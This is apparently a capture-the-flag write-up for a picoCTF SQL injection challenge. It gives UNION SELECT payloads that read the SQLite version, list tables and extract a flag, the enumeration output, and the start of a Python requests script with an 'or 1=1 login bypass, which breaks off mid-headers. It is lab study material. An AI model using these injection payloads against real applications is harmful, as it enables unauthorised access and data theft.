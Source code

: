 Payload to test

`test' UNION SELECT 1,sqlite_version(),3;--`
We got the version 3.31.1. 

Enumerate databases
`test' UNION SELECT name,sql,null from sqlite_master;-- `
>sqlite_master are default for list all database.
```

City 	Address 	Phone
hints	CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)	
more_table	CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)	
offices	CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)	
sqlite_autoindex_users_1		
users	CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)	
```

Final payload
```
test' UNION SELECT flag,null,null from more_table;--
```

```
//sql.py

import requests
import re

# Define the URLs
login_url = "http://saturn.picoctf.net:63089/"
search_url = "http://saturn.picoctf.net:63089/welcome.php"

# Define the payloads for each request
login_payload = {
    "username": "'or 1=1;--",
    "password": "'or 1=1;--"
}

database_payload = {
    "search": "test' UNION SELECT flag,null,null from more_table;--",
    "submit": "Search"
}

table_payload = {
    "search": "test' UNION SELECT flag,null,null from more_table;--",
    "submit": "Search"
}


final_payload = {
    "search": "test' UNION SELECT flag,null,null from more_table;--",
    "submit": "Search"
}

# Define the headers for each request
login_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Content-Length": str(len("username=hello&password=' or 1=1;--")),
    "Origin": "http://saturn.picoctf.net:63089",
```